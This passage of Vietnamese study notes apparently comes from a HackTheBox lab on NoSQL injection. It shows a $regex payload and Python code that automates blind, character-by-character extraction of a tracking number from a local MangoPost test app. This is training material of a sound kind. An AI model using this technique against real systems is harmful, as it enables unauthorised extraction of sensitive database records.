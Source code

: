 5. **Hoàn thiện việc dò tìm**:
   - Sau khi xác định toàn bộ mã `trackingNum`, ta có thể xác minh bằng cách thêm dấu `$` vào cuối regex (để đánh dấu kết thúc chuỗi), ví dụ:
     ```json
     {"trackingNum": {"$regex": "^32A766\\$"}}
     ```

**Tóm lại**: Phương pháp này cho phép kẻ tấn công dò tìm từng ký tự của `trackingNum` bằng cách sử dụng các truy vấn `true/false` dựa trên NoSQL Injection, từ đó thu thập dữ liệu nhạy cảm mà không cần biết trước giá trị đầy đủ của `trackingNum`.

---
# 6. Tự động hóa khai thác dữ liệu dạng Blind Data Extraction với MangoPost

1. **Kịch bản**:
   - Việc trích xuất dữ liệu thủ công qua phương pháp Blind Injection có thể rất phức tạp và tốn thời gian, vì vậy cần tự động hóa.
   - Ở đây, chúng ta sẽ thực hiện khai thác tự động để tìm ra `trackingNum` của gói hàng thuộc về **bmdyy**, mã bưu kiện bắt đầu bằng `HTB{` và bao gồm 32 ký tự từ `0-9` và `a-f`.

2. **Xây dựng hàm `oracle`**:
   - Đầu tiên, tạo một hàm `oracle()` để gửi yêu cầu `POST` và kiểm tra xem kết quả có chứa chuỗi `"bmdyy"` hay không.
   - Nếu kết quả có chứa `"bmdyy"`, thì truy vấn của chúng ta đã khớp với mục tiêu cần tìm.
   - Code mẫu:
     ```python
     import requests
     import json

     # Oracle function to check if the query matches
     def oracle(t):
         r = requests.post(
             "http://127.0.0.1/index.php",
             headers={"Content-Type": "application/json"},
             data=json.dumps({"trackingNum": t})
         )
         return "bmdyy" in r.text
     ```

3. **Kiểm tra hàm `oracle`**:
   - Xác minh hàm `oracle` hoạt động đúng bằng cách sử dụng các lệnh `assert`.
   - Ví dụ:
     ```python
     assert (oracle("X") == False)  # Kiểm tra với mã tracking không tồn tại
     assert (oracle({"$regex": "^HTB{.*"}) == True)  # Kiểm tra với mã có mẫu khớp ban đầu
     ```

4. **Tự động dò tìm `trackingNum`**:
   - Do `trackingNum` có định dạng `HTB{[0-9a-f]{32}}`, ta chỉ cần lặp qua các ký tự trong phạm vi này.
   - Code mẫu để dò từng ký tự trong mã:
     ```python
     trackingNum = "HTB{"  # Bắt đầu với chuỗi 'HTB{'
     for _ in range(32):  # Lặp lại cho 32 ký tự
         for c in "0123456789abcdef":  # Dò từng ký tự trong phạm vi [0-9a-f]
             if oracle({"$regex": "^" + trackingNum + c}):  # Kiểm tra xem có khớp không
                 trackingNum += c  # Nếu khớp, thêm ký tự vào chuỗi
                 break  # Thoát vòng lặp sau khi tìm thấy ký tự
     trackingNum += "}"  # Thêm dấu '}' vào cuối
     ```
